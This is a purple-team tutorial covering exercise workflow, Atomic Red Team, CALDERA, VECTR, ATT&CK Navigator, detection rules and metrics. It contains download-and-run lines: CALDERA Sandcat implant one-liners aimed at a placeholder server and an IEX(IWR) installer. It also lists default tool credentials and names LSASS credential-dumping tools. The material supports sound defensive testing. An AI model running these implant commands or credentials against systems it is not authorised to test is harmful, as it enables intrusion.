

# Purple Team Model — Collaborative Offense & Defense

> **Difficulty:** Beginner → Advanced | **Category:** Penetration Testing

---

## Table of Contents

1. [What is Purple Team?](#1-what-is-purple-team)
2. [Purple vs Red vs Blue Team](#2-purple-vs-red-vs-blue-team)
3. [Purple Team Workflow](#3-purple-team-workflow)
4. [Tools in Detail](#4-tools-in-detail)
5. [MITRE ATT&CK Integration](#5-mitre-attck-integration)
6. [Metrics and Measurement](#6-metrics-and-measurement)
7. [Building a Purple Team Program from Scratch](#7-building-a-purple-team-program-from-scratch)
8. [Purple Team Feedback Loop Diagram](#8-purple-team-feedback-loop-diagram)
9. [Sample Exercise Plan / Template](#9-sample-exercise-plan--template)
10. [Common Challenges and Solutions](#10-common-challenges-and-solutions)
11. [Purple Team Exercise Report Template](#11-purple-team-exercise-report-template)

---

## 1. What is Purple Team?

### Definition

A **Purple Team** is a collaborative cybersecurity function where offensive operators (Red Team) and defensive analysts (Blue Team) work *together*, in real time or in structured iterations, to test and improve an organisation's detection and response capabilities.

The "purple" metaphor is literal: red (attack) and blue (defence) blend into purple — a unified team with a shared goal. Unlike traditional penetration testing, which often ends with a written report handed off to defenders, purple teaming is a *continuous feedback loop* that closes the gap between what attackers can do and what defenders can see.

### Why Purple Team Emerged

Traditional security assessment models operated in silos:

- **Red Teams** would conduct engagements, deliver a report, and leave. Defenders rarely observed the attacks live and therefore had limited opportunity to tune detections in context.
- **Blue Teams** would build detection rules against theoretical attacker behaviour, often without access to real attack telemetry.
- **The result:** Organisations paid for expensive red team engagements and still couldn't detect the same techniques six months later.

Purple teaming emerged as a direct answer to this problem. The concept gained traction around 2015–2018 as the industry adopted the MITRE ATT&CK framework, which provided a common taxonomy for both attackers and defenders to reference the same techniques.

Key drivers:

| Driver | Impact |
|---|---|
| MITRE ATT&CK public release (2015) | Common language for techniques |
| Atomic Red Team (2017) | Free, reproducible attack tests |
| SIEM/EDR maturity | Defenders could correlate telemetry |
| Breach fatigue | Organisations demanded measurable improvement |
| Regulatory pressure (DORA, TIBER-EU) | Structured adversarial testing mandated |

### Purpose and Goals

The primary goals of a purple team engagement are:

1. **Validate existing detections** — do your SIEM/EDR rules actually fire when an attacker executes a known technique?
2. **Identify detection gaps** — which ATT&CK techniques have zero coverage?
3. **Tune signal-to-noise ratio** — reduce false positives while maintaining true positive rate.
4. **Improve analyst response procedures** — SOC playbooks tested against live simulated attacks.
5. **Provide measurable security posture improvement** — before/after metrics tied to specific techniques.
6. **Build organisational knowledge** — both red and blue teams leave with a deeper understanding of the environment.

> **Note:** Purple teaming is not a replacement for red team assessments. Red teams still provide value by finding novel attack paths, testing physical controls, and simulating full adversary campaigns without the Blue Team knowing. Purple teaming complements this by maximising the value of each tested technique.

---

## 2. Purple vs Red vs Blue Team

### Team Roles Compared

| Dimension | Red Team | Blue Team | Purple Team |
|---|---|---|---|
| **Primary Goal** | Compromise objectives undetected | Detect, respond, recover | Improve detection & response together |
| **Perspective** | Attacker | Defender | Both simultaneously |
| **Operates with** | Full adversarial mindset | Defensive tooling (SIEM, EDR, SOAR) | Shared awareness, coordinated execution |
| **Blue Team awareness** | None (blind) | Reactive | Full (co-operative) |
| **Deliverable** | Report with findings | Incident reports, tuned rules | Detection coverage map, metrics, improved rules |
| **Duration** | Weeks to months | Continuous | Days to weeks per exercise cycle |
| **Cost efficiency** | Low per-technique depth | High operational cost | High per-technique ROI |
| **ATT&CK coverage** | Low (deep, narrow)| Reactive | Broad, systematic |
| **Knowledge transfer** | One-directional (report) | Inward-facing | Bidirectional |

### When to Use Each Model

```
Red Team:   Testing whether an adversary can achieve a specific business objective
            (e.g., exfiltrate customer data, reach OT network)

Blue Team:  Continuous monitoring, threat hunting, incident response

Purple Team: Systematically testing and improving detection across a technique matrix
             Onboarding a new SIEM or EDR product
             Preparing for a regulatory assessment (TIBER-EU, CBEST, DORA TLPT)
             After a significant infrastructure change
```

> **Warning:** Running a purple team exercise with an immature Blue Team (no SIEM, no EDR) will yield poor results. Establish a telemetry baseline before scheduling exercises.

---

## 3. Purple Team Workflow

The purple team cycle consists of five repeating phases:

```
Planning → Execution → Analysis → Remediation → Re-test → (repeat)
```

### 3.1 Phase 1: Planning

#### Select Techniques via Threat Intelligence

Start with your **threat model**. Ask: "Which threat actors target our industry, our geography, our technology stack?"

Use public threat intelligence sources to identify relevant adversary groups:

```bash
# Query MITRE ATT&CK for groups targeting a specific sector using the attackcti Python library
pip install attackcti

python3 - <<'EOF'
from attackcti import attack_client
client = attack_client()

# Get all groups
groups = client.get_groups()
for g in groups:
    name = g.get('name', '')
    aliases = g.get('aliases', [])
    print(f"{name}: {aliases}")
EOF
```

```bash
# Filter groups by sector using ATT&CK STIX data directly
python3 - <<'EOF'
from attackcti import attack_client
client = attack_client()

# Get techniques used by a specific group (e.g., APT29)
apt29_techniques = client.get_techniques_used_by_group("APT29")
for t in apt29_techniques:
    tid = t.get('technique_id', '')
    tname = t.get('technique', '')
    print(f"  {tid}: {tname}")
EOF
```

#### Prioritise Techniques

Build a prioritisation matrix using these factors:

| Factor | Weight | Rationale |
|---|---|---|
| Threat actor uses this technique | High | Directly relevant to your threat model |
| Technique has never been tested | High | Unknown gap |
| High CVSS/impact if undetected | High | Business risk |
| Low implementation complexity | Medium | Easy wins first |
| Already have a detection rule | Low | Validate, not discover |

Create a simple scoring sheet:

```
Technique: T1059.001 — PowerShell
  Threat actor relevance:    3/3  (APT29, Lazarus, FIN7 all use it)
  Gap status:                3/3  (No existing validated detection)
  Business impact:           3/3  (Execution → lateral movement → exfil)
  Implementation complexity: 2/3  (Easy — Atomic Red Team has 20+ tests)
  Total: 11/12 → HIGH PRIORITY
```

#### Define Scope and Rules of Engagement

Document before every exercise:

- **Target systems** (hostnames, IP ranges, cloud accounts)
- **Target user accounts** (dedicated lab accounts, not production admin)
- **Excluded systems** (production databases, HA clusters, DR systems)
- **Time window** (date, start time, end time, timezone)
- **Communication channel** (dedicated Slack channel, war-room bridge)
- **Abort criteria** (if production impact observed, stop immediately)
- **Blue Team lead** (who receives real-time technique notifications)
- **Red Team lead** (who executes and documents)

---

### 3.2 Phase 2: Execution

During execution, the Red Team runs each technique while the Blue Team actively monitors, using a coordinated communication model.

#### Execution Modes

**Mode A — "Known" (Co-operative)**
Red team announces each technique before execution. Blue team confirms they are monitoring. Red runs. Both observe together.

**Mode B — "Blind-ish"**
Red team executes a batch of techniques over a defined window. Blue team hunts without being told what ran. Debrief at the end.

Mode A is preferred for initial exercises and technique onboarding. Mode B simulates more realistic conditions once detection capability is established.

#### Execution Communication Template

```
[RED → BLUE] Executing: T1059.001 PowerShell - Encoded Command
             Host: LAB-WIN10-01 (10.10.1.50)
             User: labuser01
             Tool: Atomic Red Team Test #4
             Time: 14:32:05 UTC

[BLUE → RED] Acknowledged. Monitoring EDR console and SIEM.
             Event logged at 14:32:09 UTC — ALERT FIRED ✅
             Rule: "Suspicious PowerShell EncodedCommand Usage"
             SIEM ticket: INC-2024-0442

[RED → BLUE] Confirmed execution complete. Cleanup running.
```

---

### 3.3 Phase 3: Analysis

After execution, both teams review what was detected, missed, and why.

#### Detection Outcome Categories

| Outcome | Symbol | Definition |
|---|---|---|
| **Detected & Alerted** | ✅ | SIEM/EDR fired an actionable alert with correct context |
| **Logged but No Alert** | ⚠️ | Telemetry existed but no rule triggered |
| **Partial Detection** | 🔶 | Alert fired but missed key context (wrong field, missing parent process) |
| **Not Logged** | ❌ | No telemetry at all — logging gap |
| **False Negative** | ❌ | Rule exists but failed to match |

#### Gap Analysis Process

```bash
# Example: Querying Splunk for PowerShell events after Atomic test execution
# Run in Splunk SPL (saved search or via REST API)

index=windows EventCode=4104
| eval technique="T1059.001"
| stats count by host, CommandLine, ParentProcessName
| where count > 0
| table _time, host, CommandLine, ParentProcessName
```

```bash
# Example: Querying Elastic/SIEM via CLI with elasticvue or curl
curl -s -X GET "http://siem.lab.local:9200/winlogbeat-*/_search" \
  -H 'Content-Type: application/json' \
  -d '{
    "query": {
      "bool": {
        "must": [
          {"term": {"event.code": "4104"}},
          {"range": {"@timestamp": {"gte": "now-1h"}}}
        ]
      }
    }
  }' | python3 -m json.tool
```

---

### 3.4 Phase 4: Remediation

For each gap identified in Phase 3, create a remediation action:

| Gap Type | Remediation Action |
|---|---|
| No telemetry | Enable logging (Sysmon, PowerShell ScriptBlock, audit policy) |
| Logged but no rule | Write detection rule (Sigma, SPL, KQL) |
| Partial detection | Tune existing rule — add fields, parent process, command-line conditions |
| High false positive rate | Add exclusions for known-good processes/paths |
| Alert not actioned | Update SOC playbook, assign severity correctly |

#### Writing a Sigma Rule from a Purple Team Finding

```yaml
# sigma/rules/windows/powershell/posh_encoded_command.yml
title: PowerShell Encoded Command Execution
id: 8f14e45f-ceea-4b3e-90e4-6f2a9c3d3e4a
status: test
description: Detects execution of PowerShell with Base64-encoded commands commonly
             used by adversaries to bypass logging and script block analysis.
references:
  - https://attack.mitre.org/techniques/T1059/001/
  - https://github.com/redcanaryco/atomic-red-team/tree/master/atomics/T1059.001
author: Purple Team Exercise — 2024-Q3
date: 2024/09/15
tags:
  - attack.execution
  - attack.t1059.001
logsource:
  category: process_creation
  product: windows
detection:
  selection:
    Image|endswith: '\powershell.exe'
    CommandLine|contains:
      - ' -EncodedCommand '
      - ' -enc '
      - ' -ec '
  condition: selection
falsepositives:
  - Legitimate automation scripts using encoded commands (validate and add exclusions)
level: medium
```

```bash
# Convert Sigma rule to Splunk SPL
pip install sigma-cli
sigma convert -t splunk -p splunk_windows sigma/rules/windows/powershell/posh_encoded_command.yml
```

---

### 3.5 Phase 5: Re-test

After remediations are applied, re-run the same techniques to verify improvement:

```bash
# Re-run the same Atomic Red Team test
Invoke-AtomicTest T1059.001 -TestNumbers 4 -GetPrereqs
Invoke-AtomicTest T1059.001 -TestNumbers 4
```

Document the before/after state:

| Technique | Pre-Remediation | Post-Remediation | Change |
|---|---|---|---|
| T1059.001 | ❌ No Alert | ✅ Alert Fired | +1 detection |
| T1003.001 | ⚠️ Logged Only | ✅ Alert + Playbook | +1 detection |
| T1055.001 | ✅ Alert Fired | ✅ Alert Fired | No change needed |

---

## 4. Tools in Detail

### 4.1 Atomic Red Team

#### What It Is

[Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) is an open-source library of small, focused attack tests mapped to MITRE ATT&CK techniques. Each "atomic" is a single, reproducible test that executes one technique variant. Tests include:

- Pre-requisite checks (does the environment support this test?)
- Execution commands (PowerShell, Bash, cmd, Python)
- Cleanup commands (restore the system to pre-test state)
- Input parameters (customisable paths, payloads, etc.)

Maintained by Red Canary, the library contains 1,000+ tests across 200+ techniques as of 2024.

#### Installation

```bash
# Install the Invoke-AtomicRedTeam PowerShell module (Windows)
# Run in PowerShell as Administrator

# Install from PowerShell Gallery
Install-Module -Name invoke-atomicredteam -Scope CurrentUser -Force
Install-Module -Name powershell-yaml -Scope CurrentUser -Force

# Import the module
Import-Module invoke-atomicredteam

# Download the atomic definitions (YAML files)
IEX (IWR 'https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/install-atomicredteam.ps1' -UseBasicParsing)
Install-AtomicRedTeam -getAtomics -Force
```

```bash
# Verify installation
Import-Module invoke-atomicredteam
Invoke-AtomicTest T1059.001 -ShowDetails
```

```bash
# Linux/macOS install
git clone https://github.com/redcanaryco/atomic-red-team.git /opt/atomic-red-team

# Install the Python runner (alternative to PowerShell)
pip install atomic-red-team

# Or use the bash executor directly for Linux atomics
ls /opt/atomic-red-team/atomics/T1059.004/
```

#### Running Atomics — Core Commands

```powershell
# Show details of all tests for a technique (no execution)
Invoke-AtomicTest T1059.001 -ShowDetails

# Check prerequisites only (no execution)
Invoke-AtomicTest T1059.001 -CheckPrereqs

# Install prerequisites
Invoke-AtomicTest T1059.001 -GetPrereqs

# Run all tests for a technique
Invoke-AtomicTest T1059.001

# Run specific test number(s)
Invoke-AtomicTest T1059.001 -TestNumbers 1,4

# Run with a specific test name
Invoke-AtomicTest T1059.001 -TestNames "PowerShell Downgrade Attack"

# Run and capture output to a log file
Invoke-AtomicTest T1059.001 -TestNumbers 4 | Tee-Object -FilePath C:\purple\logs\T1059.001_test4.txt

# Run cleanup after a test
Invoke-AtomicTest T1059.001 -TestNumbers 4 -Cleanup

# Run ALL techniques in a given tactic (execution)
# First, get a list of all execution techniques
python3 - <<'EOF'
from attackcti import attack_client
client = attack_client()
techniques = client.get_techniques_by_tactic('execution', 'enterprise-attack')
for t in techniques:
    print(t.get('technique_id', ''))
EOF
```

```powershell
# Run a batch of techniques from a CSV list
$techniques = Import-Csv C:\purple\exercise-techniques.csv
foreach ($t in $techniques) {
    Write-Host "[*] Executing: $($t.TechniqueID) — $($t.Name)"
    Invoke-AtomicTest $t.TechniqueID -CheckPrereqs
    Invoke-AtomicTest $t.TechniqueID
    Start-Sleep -Seconds 30
    Invoke-AtomicTest $t.TechniqueID -Cleanup
}
```

#### Mapping Atomics to ATT&CK

```bash
# Generate a coverage report — which ATT&CK techniques have atomics
python3 - <<'EOF'
import os, yaml, json

atomics_path = "/opt/atomic-red-team/atomics"
coverage = {}

for technique_dir in os.listdir(atomics_path):
    yaml_path = os.path.join(atomics_path, technique_dir, f"{technique_dir}.yaml")
    if os.path.exists(yaml_path):
        with open(yaml_path) as f:
            data = yaml.safe_load(f)
            tid = data.get('attack_technique', '')
            tests = data.get('atomic_tests', [])
            coverage[tid] = {
                'name': data.get('display_name', ''),
                'test_count': len(tests),
                'platforms': list(set(
                    p for t in tests
                    for p in t.get('supported_platforms', [])
                ))
            }

print(json.dumps(coverage, indent=2))
EOF
```

---

### 4.2 Caldera

#### What It Is

[CALDERA](https://github.com/mitre/caldera) is an automated adversary emulation platform developed by MITRE. Unlike Atomic Red Team (which runs individual tests), Caldera runs **multi-step adversary campaigns** with an autonomous agent (implant) deployed on target systems.

Key concepts:

| Concept | Description |
|---|---|
| **Agent** | Implant running on target host (Sandcat, Ragdoll, etc.) |
| **Ability** | Single ATT&CK-mapped action (equivalent to an Atomic) |
| **Adversary** | Collection of abilities organised into a campaign profile |
| **Operation** | A running campaign against a target group |
| **Planner** | Decision engine that determines ability execution order |
| **Facts** | Data collected during operation (credentials, hostnames, etc.) |

#### Architecture

```
┌─────────────────────────────────────────────┐
│              CALDERA Server                  │
│  ┌──────────┐  ┌──────────┐  ┌───────────┐ │
│  │ REST API │  │  Planner │  │  Plugins  │ │
│  └──────────┘  └──────────┘  └───────────┘ │
│  ┌─────────────────────────────────────────┐│
│  │           Data Store (SQLite/Mongo)     ││
│  └─────────────────────────────────────────┘│
└─────────────────────────────────────────────┘
         ↕ HTTPS / DNS / TCP beacons
┌────────────────────┐   ┌────────────────────┐
│  Target Host A     │   │  Target Host B      │
│  Sandcat Agent     │   │  Sandcat Agent      │
│  (GoLang implant)  │   │  (GoLang implant)   │
└────────────────────┘   └────────────────────┘
```

#### Installation

```bash
# Prerequisites: Python 3.8+, Go 1.17+
git clone https://github.com/mitre/caldera.git --recursive --branch 5.0.0 /opt/caldera
cd /opt/caldera

# Install Python dependencies
pip3 install -r requirements.txt

# Start the server
python3 server.py --insecure --build
```

```bash
# Access the web UI
# Default credentials: red/admin, blue/admin
open http://localhost:8888
```

#### Creating an Adversary Profile

```bash
# Via REST API — create a custom adversary profile
curl -s -X POST http://localhost:8888/api/v2/adversaries \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{
    "name": "APT29-Lite",
    "description": "Simplified APT29 TTPs for purple team exercise",
    "objective": "default",
    "tags": ["purple-team", "apt29"],
    "atomic_ordering": [
      "90c2efaa-8205-480d-8bb6-61d90dbaf81b",
      "4ae09b4a-c431-4e3e-9ee3-8b1e3d0e1b6f"
    ]
  }'
```

```bash
# List available abilities (techniques)
curl -s http://localhost:8888/api/v2/abilities \
  -H "KEY: ADMIN123" | python3 -m json.tool | grep -E '"name"|"technique_id"' | head -60
```

#### Running an Operation

```bash
# Create and start an operation via REST API
curl -s -X POST http://localhost:8888/api/v2/operations \
  -H "KEY: ADMIN123" \
  -H "Content-Type: application/json" \
  -d '{
    "name": "PurpleEx-2024-Q3-01",
    "adversary": {"adversary_id": "YOUR_ADVERSARY_ID"},
    "group": "red",
    "planner": {"id": "aaa7c857-37a0-4c4a-85f7-4e9f7f30d31a"},
    "source": {"id": "default"},
    "auto_close": false,
    "state": "running"
  }'
```

```bash
# Monitor operation progress
curl -s http://localhost:8888/api/v2/operations/OPERATION_ID \
  -H "KEY: ADMIN123" | python3 -m json.tool

# Get operation results/links
curl -s "http://localhost:8888/api/v2/operations/OPERATION_ID/links" \
  -H "KEY: ADMIN123" | python3 -m json.tool
```

#### Deploy the Sandcat Agent

```bash
# Generate agent deployment command (from Caldera UI → Agents → Deploy Agent)
# The server provides a one-liner like:

# Windows (PowerShell)
$url="http://CALDERA_SERVER:8888/file/download"; $wc=New-Object System.Net.WebClient; $wc.Headers.add("platform","windows"); $wc.Headers.add("file","sandcat.go"); $data=$wc.DownloadData($url); get-process | ? {$_.modules.filename -like "*sandcat*"} | stop-process -f; [io.file]::WriteAllBytes("C:\Users\Public\sandcat.exe",$data); C:\Users\Public\sandcat.exe -server http://CALDERA_SERVER:8888 -group red -v

# Linux (Bash)
curl -s -X POST -H "file:sandcat.go" -H "platform:linux" \
  http://CALDERA_SERVER:8888/file/download > /tmp/sandcat && \
  chmod +x /tmp/sandcat && /tmp/sandcat -server http://CALDERA_SERVER:8888 -group red -v &
```

---

### 4.3 Vectr

#### What It Is

[VECTR](https://vectr.io) (Vulnerability & Exploit Capture, Track, and Report) is a free, open-source purple team tracking platform. Where Caldera and Atomic Red Team *execute* attacks, VECTR *manages and documents* the exercise — tracking which techniques were run, what was detected, and generating reports.

Key features:

- Create **campaigns** and **assessments** linked to ATT&CK techniques
- Log outcomes: detected, not detected, partial detection
- Generate executive and technical reports
- Track remediation status over time
- Compare assessment results across time periods

#### Installation (Docker)

```bash
# Clone the VECTR docker deployment
git clone https://github.com/SecurityRiskAdvisors/VECTR.git /opt/vectr
cd /opt/vectr

# Copy and customise the environment file
cp .env.example .env
# Edit .env: set VECTR_HOSTNAME, admin password, JWT secret

# Start VECTR
docker-compose up -d

# Verify containers are running
docker-compose ps
```

```bash
# VECTR is accessible at:
open https://localhost:8081
# Default login: admin / 11_ThisIsTheFirstPassword_11
```

#### Creating an Assessment in VECTR

1. **Login → Create Organisation** (e.g., "ACME Corp Purple Team")
2. **Create Campaign** (e.g., "2024-Q3 APT29 Simulation")
3. **Add Assessment** — define scope, date range, description
4. **Add Test Cases** — import from ATT&CK or add manually:
   - Technique ID (T1059.001)
   - Test name
   - Outcome (detected / not detected / partial)
   - Notes from both Red and Blue teams
5. **Track Remediation** — mark each gap with remediation status
6. **Export Report** — PDF, CSV, or JSON

```bash
# VECTR also has a REST API for automated test case import
curl -s -X POST https://vectr.local:8081/sra-purpleteam-api/v0/users/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"YourPassword"}' \
  -c cookies.txt

# Create a test case via API
curl -s -X POST https://vectr.local:8081/sra-purpleteam-api/v0/testcases \
  -H "Content-Type: application/json" \
  -b cookies.txt \
  -d '{
    "name": "PowerShell Encoded Command",
    "attackTechniqueIds": ["T1059.001"],
    "outcome": "NOT_DETECTED",
    "redTeamNotes": "Ran Atomic T1059.001 Test #4 at 14:32 UTC",
    "blueTeamNotes": "No alert fired. EventID 4104 not forwarded to SIEM."
  }'
```

---

### 4.4 ATT&CK Navigator

#### What It Is

[ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) is a web-based tool from MITRE for visualising ATT&CK coverage. It displays the full ATT&CK matrix and lets you colour-code, annotate, and layer techniques.

Use cases in purple teaming:

- Colour techniques **red** (tested, not detected), **green** (tested, detected), **grey** (untested)
- Layer multiple assessments to compare progress over time
- Share coverage maps with management
- Export as SVG/PNG for reports

#### Creating a Coverage Layer

Navigator layers are JSON files. Generate one programmatically:

```python
# generate_navigator_layer.py
import json

# Define your test results
results = [
    {"techniqueID": "T1059.001", "score": 2, "comment": "DETECTED — SIEM alert fired"},
    {"techniqueID": "T1059.003", "score": 1, "comment": "PARTIAL — logged but no alert"},
    {"techniqueID": "T1003.001", "score": 0, "comment": "NOT DETECTED — no telemetry"},
    {"techniqueID": "T1055.001", "score": 2, "comment": "DETECTED — EDR blocked"},
    {"techniqueID": "T1547.001", "score": 0, "comment": "NOT DETECTED — no registry logging"},
    {"techniqueID": "T1071.001", "score": 1, "comment": "PARTIAL — C2 beacon not alerted"},
]

layer = {
    "name": "Purple Team Exercise 2024-Q3",
    "versions": {"attack": "14", "navigator": "4.9", "layer": "4.4"},
    "domain": "enterprise-attack",
    "description": "Coverage results from Q3 2024 APT29 simulation exercise",
    "filters": {"platforms": ["Windows", "Linux", "macOS"]},
    "sorting": 0,
    "layout": {"layout": "side", "showID": True, "showName": True},
    "hideDisabled": False,
    "techniques": results,
    "gradient": {
        "colors": ["#ff6666", "#ffff66", "#66ff66"],
        "minValue": 0,
        "maxValue": 2
    },
    "legendItems": [
        {"label": "Not Detected", "color": "#ff6666"},
        {"label": "Partial Detection", "color": "#ffff66"},
        {"label": "Detected", "color": "#66ff66"}
    ],
    "metadata": [],
    "links": [],
    "showTacticRowBackground": True,
    "tacticRowBackground": "#dddddd",
    "selectTechniquesAcrossTactics": True
}

with open("purple_team_layer.json", "w") as f:
    json.dump(layer, f, indent=2)

print("[+] Layer saved to purple_team_layer.json")
print(f"[+] Upload to: https://mitre-attack.github.io/attack-navigator/")
```

```bash
python3 generate_navigator_layer.py
# Then visit ATT&CK Navigator → Open Existing Layer → Upload JSON
```

#### Self-Hosted Navigator

```bash
# Host Navigator locally (useful for air-gapped environments)
git clone https://github.com/mitre-attack/attack-navigator.git /opt/attack-navigator
cd /opt/attack-navigator/nav-app

npm install
npm run serve
# Access at: http://localhost:4200
```

---

### 4.5 MITRE ATT&CK Evaluations

MITRE runs annual **ATT&CK Evaluations** where EDR/XDR vendors are tested against real adversary TTPs (Carbanak, APT29, Turla, etc.). Results are publicly available and are an invaluable resource for purple teams.

```bash
# Access evaluation results
open https://attackevals.mitre-engenuity.org/

# Use results to:
# 1. Understand which techniques your EDR missed in vendor evaluations
# 2. Prioritise those same techniques in YOUR purple team exercises
# 3. Hold vendors accountable: "You missed T1055.001 in the MITRE eval — let's test it here"
```

---

## 5. MITRE ATT&CK Integration

### 5.1 Selecting Techniques to Test

#### By Tactic

```python
# Get all techniques for each tactic
from attackcti import attack_client
client = attack_client()

tactics = [
    'initial-access', 'execution', 'persistence', 'privilege-escalation',
    'defense-evasion', 'credential-access', 'discovery', 'lateral-movement',
    'collection', 'command-and-control', 'exfiltration', 'impact'
]

for tactic in tactics:
    techniques = client.get_techniques_by_tactic(tactic, 'enterprise-attack')
    print(f"\n=== {tactic.upper()} ({len(techniques)} techniques) ===")
    for t in techniques[:5]:  # First 5 per tactic
        print(f"  {t.get('technique_id')}: {t.get('technique')}")
```

#### By Threat Group

```bash
# Get all techniques used by FIN7
python3 - <<'EOF'
from attackcti import attack_client
client = attack_client()

group_name = "FIN7"
techniques = client.get_techniques_used_by_group(group_name)

print(f"Techniques used by {group_name}:")
for t in sorted(techniques, key=lambda x: x.get('technique_id', '')):
    tid = t.get('technique_id', 'N/A')
    tname = t.get('technique', 'N/A')
    print(f"  {tid}: {tname}")
EOF
```

### 5.2 Mapping Defensive Coverage

```python
# Map your SIEM rules to ATT&CK techniques
# Assumes you have a CSV: siem_rules.csv with columns: rule_name, technique_id, status

import csv
from attackcti import attack_client

client = attack_client()
all_techniques = {
    t.get('technique_id'): t.get('technique')
    for t in client.get_all_techniques()
    if t.get('technique_id')
}

covered = set()
with open('siem_rules.csv') as f:
    for row in csv.DictReader(f):
        if row['status'] == 'active':
            covered.add(row['technique_id'])

total = len(all_techniques)
coverage_pct = (len(covered) / total) * 100

print(f"Total ATT&CK techniques: {total}")
print(f"Covered by SIEM rules:   {len(covered)}")
print(f"Coverage percentage:     {coverage_pct:.1f}%")
print(f"\nUncovered techniques (sample):")
for tid, tname in list(all_techniques.items())[:10]:
    if tid not in covered:
        print(f"  {tid}: {tname}")
```

### 5.3 Detection Analytics Development

Detection analytics should follow a structured format. Use the **Palantir Alerting & Detection Strategy (ADS) Framework**:

```yaml
# ads/T1003.001-lsass-memory-dump.yml
goal: Detect adversary attempts to dump LSASS process memory for credential harvesting

categorisation:
  mitre_attck: T1003.001 — OS Credential Dumping: LSASS Memory

strategy_abstract: |
  Monitor for suspicious process access to lsass.exe. Legitimate processes
  rarely request PROCESS_VM_READ access to LSASS outside of security products.

technical_context: |
  LSASS (Local Security Authority Subsystem Service) stores credential material
  in memory. Adversaries use tools like Mimikatz, ProcDump, and Task Manager
  to dump LSASS memory and extract NTLM hashes / Kerberos tickets.

blind_spots:
  - Kernel-mode credential dumping (bypasses user-mode hooks)
  - Custom in-memory loaders that avoid touching disk

assumptions:
  - Sysmon EventID 10 (ProcessAccess) is collected and forwarded to SIEM
  - Sysmon config includes LSASS access monitoring

false_positives:
  - Windows Defender / AV products accessing LSASS
  - Backup agents
  - EDR sensor itself

priority: High

validation:
  atomic_test: T1003.001 Test #1 (Task Manager)
  atomic_test: T1003.001 Test #2 (ProcDump)

response:
  - Isolate host immediately
  - Preserve memory dump of LSASS for forensic analysis
  - Rotate all credentials for accounts logged into affected host
  - Hunt laterally for pass-the-hash activity
```

---

## 6. Metrics and Measurement

### Core Purple Team KPIs

| Metric | Formula | Target |
|---|---|---|
| **Detection Rate (DR)** | Detected Techniques / Total Tested × 100 | > 75% |
| **ATT&CK Coverage (%)** | Techniques with detections / Total techniques × 100 | > 40% (mature) |
| **Mean Time to Detect (MTTD)** | Σ(time_alerted - time_executed) / n | < 5 minutes |
| **Mean Time to Respond (MTTR)** | Σ(time_remediated - time_alerted) / n | < 30 minutes |
| **Alert Fidelity** | True Positives / (True Positives + False Positives) × 100 | > 80% |
| **Remediation Rate** | Gaps Remediated / Total Gaps Identified × 100 | > 90% (90 days) |
| **Re-test Pass Rate** | Techniques passing on re-test / Techniques retested × 100 | > 95% |

### Tracking MTTD and MTTR

```bash
# Calculate MTTD from exercise log (CSV: technique,executed_time,alerted_time)
python3 - <<'EOF'
import csv
from datetime import datetime

results = []
with open('exercise_log.csv') as f:
    for row in csv.DictReader(f):
        if row.get('alerted_time'):
            executed = datetime.fromisoformat(row['executed_time'])
            alerted = datetime.fromisoformat(row['alerted_time'])
            delta_seconds = (alerted - executed).total_seconds()
            results.append({
                'technique': row['technique'],
                'mttd_seconds': delta_seconds
            })

if results:
    avg_mttd = sum(r['mttd_seconds'] for r in results) / len(results)
    print(f"MTTD results across {len(results)} detected techniques:")
    for r in sorted(results, key=lambda x: x['mttd_seconds'], reverse=True):
        print(f"  {r['technique']}: {r['mttd_seconds']:.0f}s ({r['mttd_seconds']/60:.1f} min)")
    print(f"\nMean Time to Detect: {avg_mttd:.0f}s ({avg_mttd/60:.1f} min)")
EOF
```

### SIEM Rule Quality Score

Rate each detection rule on a 0–4 scale:

| Score | Label | Criteria |
|---|---|---|
| 0 | **None** | No rule exists |
| 1 | **Minimal** | Rule exists but fires on wrong/incomplete conditions |
| 2 | **Partial** | Rule fires but lacks context (no parent process, no user) |
| 3 | **Good** | Rule fires with relevant context, actionable for analyst |
| 4 | **Excellent** | Rule fires, auto-enriched, playbook triggered, low FP rate |

---

## 7. Building a Purple Team Program from Scratch

### Phase 1: Foundation (Months 1–3)

**Goal:** Establish the telemetry and tooling baseline required to run effective exercises.

#### Step 1 — Telemetry Baseline

```bash
# Deploy Sysmon with a quality config (SwiftOnSecurity or Olaf Hartong's config)
# Download config
Invoke-WebRequest -Uri "https://raw.githubusercontent.com/olafhartong/sysmon-modular/master/sysmonconfig.xml" \
  -OutFile C:\sysmon\sysmonconfig.xml

# Install Sysmon
.\Sysmon64.exe -accepteula -i C:\sysmon\sysmonconfig.xml

# Verify Sysmon is running
Get-Service Sysmon64 | Select-Object Name, Status, StartType
```

```bash
# Verify critical Windows audit policies are enabled
# Run in elevated PowerShell or via GPO
auditpol /get /category:*

# Enable key audit categories
